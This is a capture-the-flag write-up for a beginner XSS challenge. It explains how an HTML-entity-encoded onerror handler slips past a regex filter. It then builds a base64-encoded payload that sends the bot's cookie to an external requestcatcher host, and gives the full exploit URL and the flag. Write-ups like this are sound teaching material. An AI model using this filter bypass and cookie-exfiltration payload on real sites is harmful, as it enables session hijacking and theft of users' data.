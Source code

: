 ![alt text](image-5.png)

What you need to solve :
- Basic concept js
- Basic concept of XSS
- Basic concept of Websites

---

Starting off the challenge we were given the full source code of the challenge

```sh
❯ ls
app  bot  docker-compose.yml  start.sh
❯ ls app
app.py  Dockerfile  static  templates
❯ ls bot
app.js  Dockerfile  package.json  package-lock.json  views
```

We only need to focus on the 2 main logic of the application that is the main app and the bot.

```py
❯ cat app/app.py
from flask import Flask, request, render_template
import re

app = Flask(__name__)

def is_content_safe(content):
    if re.search(r'script', content, re.IGNORECASE):
        return False, "-10 million aura points"

    if re.search(r'on\w+\s*=', content, re.IGNORECASE):
        return False, "UR NOT SIGMA!!!"

    return True, None

@app.route('/', methods=['GET'])
def index():
    content = request.args.get('content', '')
    error = None

    if content:
        is_safe, error_msg = is_content_safe(content)
        if not is_safe:
            error = error_msg
            content = ''

    return render_template('index.html', content=content, error=error)


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80, debug=True)
```

So basicly the website will filter out anything that uses the word `script` and anything that makes the regex `r'on\w+\s*='` true.
This is easily passable we can use html entities to solve this problem and first get an alert.

```
<img src=x &#x6F;nerror=alert(1)>
```

![alt text](image-2.png)

So after getting the alert i love testing for requests from the server!

```
<img src=x &#x6F;nerror=fetch('https://auricnob.requestcatcher.com/?cookie=')>
```

![alt text](image-1.png)

So we managed to get the request from the server!

Now lets focus on the bot logic to solve the challenge.

```js
const express = require("express");
const bodyParser = require("body-parser");
const puppeteer = require("puppeteer");
const path = require("path");

const app = express();

const FLAG = "CSC{FAKE_FLAG}";

app.use(bodyParser.json());
app.use(bodyParser.urlencoded({ extended: true }));

app.get("/", (req, res) => {
  res.sendFile("/app/views/report.html");
});

app.post("/", async (req, res) => {
  const { url } = req.body;

  if (!url) return res.send({ error: "Please provide url parameters.." });
  if (! url.startsWith("http://website:80/")) return res.send({ error: "Url must starts with http://website:80/" });
  
  const browser = await puppeteer.launch({
    headless: true,
    defaultViewport: null,
    executablePath: "/usr/bin/google-chrome",
    args: [
      "--disable-dev-shm-usage",
      "--no-sandbox",
      "--disable-setuid-sandbox",
      "--disable-gpu",
      "--no-gpu",
      "--disable-default-apps",
      "--disable-translate",
      "--disable-device-discovery-notifications",
      "--disable-software-rasterizer",
      "--disable-xss-auditor",
    ],
    ignoreHTTPSErrors: true,
  });
  try {
    const page = await browser.newPage();

    await page.setCookie({
      name: "flag",
      value: FLAG,
      domain: "website",
      path: "/",
    });

    console.log(`[X] Visiting: ${url}`);
    await page.goto(url, { waitUntil: "networkidle2", timeout: 6000 });

    res.status(200).json({ message: "URL Visited." });
  } catch (error) {
    console.log(error);
    res
      .status(500)
      .json({ error: "Something error with your urls or the bot." });
  } finally {
    if (browser) {
      await browser.close(); // Ensure browser is closed even if an error occurs
    }
  }
});

app.listen(80, '0.0.0.0', () => {
  console.log(
    `Server is running on port http://127.0.0.1:80/`
  );
});
```

So basicly it will take the value from `http://website:80/` and it can take `content` as an argument which is like us inputting to the box in the main page.
Because we have xss in the main page this means we can steal the admin's cookie!

```sh
❯ python3
Python 3.13.2 (main, Feb  5 2025, 01:23:35) [GCC 14.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import base64
... js_code = "fetch('https://auricnob.requestcatcher.com/exfil?data='+encodeURIComponent(document.cookie));"
... encoded_js = base64.b64encode(js_code.encode('utf-8')).decode('utf-8')
... print(encoded_js)
...
ZmV0Y2goJ2h0dHBzOi8vYXVyaWNub2IucmVxdWVzdGNhdGNoZXIuY29tL2V4ZmlsP2RhdGE9JytlbmNvZGVVUklDb21wb25lbnQoZG9jdW1lbnQuY29va2llKSk7
```

```
http://website:80/?content=%3Cimg%20src%3Dx%20%26%23x6F%3Bnerror%3Deval(atob('ZmV0Y2goJ2h0dHBzOi8vYXVyaWNub2IucmVxdWVzdGNhdGNoZXIuY29tL2V4ZmlsP2RhdGE9JytlbmNvZGVVUklDb21wb25lbnQoZG9jdW1lbnQuY29va2llKSk7'))%3E
```

![alt text](image-3.png)

This was a pretty easy challenge to solve, but it was a good xss challenge for beginners.

![alt text](image-4.png)

Flag : CSC{iniflagasli_jangan_jangan_percaya_orang_lain_yang_ngaku_flag_asli}